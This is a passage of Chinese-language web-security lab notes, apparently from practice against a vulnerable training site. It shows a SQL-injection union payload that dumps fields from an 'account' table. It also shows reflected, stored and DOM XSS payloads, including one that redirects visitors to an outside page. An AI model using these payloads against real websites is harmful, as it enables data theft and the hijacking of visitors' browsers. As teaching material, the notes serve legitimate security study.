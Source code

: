 

#### 爆数据：

```
-1' union select 1,2,concat_ws(",",id,rest,own) from account#


```

## Xss跨站

### Xss反射型

```
<script>alert(/XSS/)</script>
```

源码里会打印内容

![image-20220226145148336](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261451412.png)

当然我们还可以在本地搭建一个xss

在网站上输入:

```
<script>location.href='http://www.test.com/xss/1.php'</script>
```



就会跳转到这个页面然后中了我们的xss代码



### Xss存储型

这个xss是存储到数据库里的，每次刷新当前页面都会执行

先输入`<script>alert(/XSS/)</script>`，然后刷新页面就会执行

![image-20220226145336767](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261453818.png)





### Xssdom型

输入`<script>alert(/DOM_xss/)</script>`

这里会打印我们的xss代码

![image-20220226145416778](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261454825.png)



## 文件包含
